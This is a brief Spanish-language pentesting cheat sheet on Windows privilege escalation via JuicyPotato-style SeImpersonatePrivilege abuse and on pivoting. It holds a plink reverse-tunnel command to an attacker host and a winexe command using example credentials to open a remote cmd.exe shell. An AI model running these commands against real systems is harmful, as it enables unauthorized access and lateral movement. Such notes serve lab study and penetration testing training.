 ## Juicy Potatos

- Si el servicio tiene asignada en el un token de SeImpersonatePrivilege activada entonces es vulnerable a un juicy potat, rotten potate....


```
> whoami /priv

```

## Port Forwading

-  Pivotear a servicios que no tengamos accesos desde la red externa 

- Editar el arvhico en tu linux de /etc/ssh/sshd_config 

```

> plink.exe root@10.10.10.x -R [LPORT]:127.0.0.1:[RPORT]
> winxec -U 'admin%password123' //127.0.0.1 cmd.exe

```
